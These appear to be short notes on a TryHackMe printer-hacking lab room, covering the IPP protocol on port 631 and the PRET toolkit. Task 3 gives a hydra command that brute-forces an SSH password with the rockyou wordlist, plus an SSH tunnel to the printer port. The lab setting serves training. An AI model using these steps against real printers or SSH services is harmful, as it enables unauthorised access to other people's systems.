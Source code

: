 # Room
https://tryhackme.com/room/printerhacking101

# Task 1 - Intro
Intro

# Task 2 - IPP Port
IPP - Internet Printing Protocol - a specialized Internet protocol for communication between clients and printers.  Clients can send print jobs, query status, and cancel print jobs.  IPP runs on TCP port 631

* Resources
  * https://www.variot.eu/

# Task 3 - Exploitation
* Resources
  * https://github.com/RUB-NDS/PRET

* Installation
  * git clone https://github.com/RUB-NDS/PRET
  * cd PRET
  * python3 pret.py

* Brute-force SSH password
  * hydra -l printer -P /usr/share/wordlists/rockyou.txt  10.10.244.53 ssh -V
* Setup an SSH Tunnel
  * ssh printer@MACHINE_IP -T -L 3631:localhost:631
* Load local printer service and map it to the remote printer at localhost:3631

# Task 4 - Conclusion
Conclusion
